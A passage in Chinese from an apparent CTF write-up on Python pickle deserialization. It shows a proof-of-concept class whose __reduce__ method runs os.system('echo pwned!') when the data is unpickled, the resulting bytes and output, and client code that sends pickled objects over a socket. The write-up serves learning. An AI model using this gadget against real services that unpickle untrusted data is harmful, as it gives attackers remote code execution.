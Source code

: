在 Pickle 库的[文档](https://docs.python.org/zh-cn/3/library/pickle.html)开头，醒目地注明了 Pickle 数据在反序列化时是不安全的：

![pickle_docs](../../assets/images/writeups/2024/svuctf_spring_2024/pickle/pickle_docs.png)

当对象被 `unpickle` 时，方法 `__reduce__` 将会被自动执行：

```python
import pickle, os


class P(object):
    def __reduce__(self):
        return (os.system, ("echo pwned!",))


# serialize
obj_bytes = pickle.dumps(P())
print(obj_bytes)

# deserialize
pickle.loads(obj_bytes)
```

```
$ python poc.py
b'\x80\x04\x95&\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x0becho pwned!\x94\x85\x94R\x94.'
pwned!
```

这题是最基本的 Pickle 反序列化，不需要与 opcode 或者沙箱打交道，所以 Pickle 库的工作原理不在这里展开，重点分析一下通信的数据格式。

客户端关键代码：

```python
# client
info = Info()

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((IP, PORT))

while True:
    # ...

    data = pickle.dumps(info)
    data = len(data).to_bytes(4) + data

    client.send(data)

    time.sleep(INTERVAL_TIME)
```
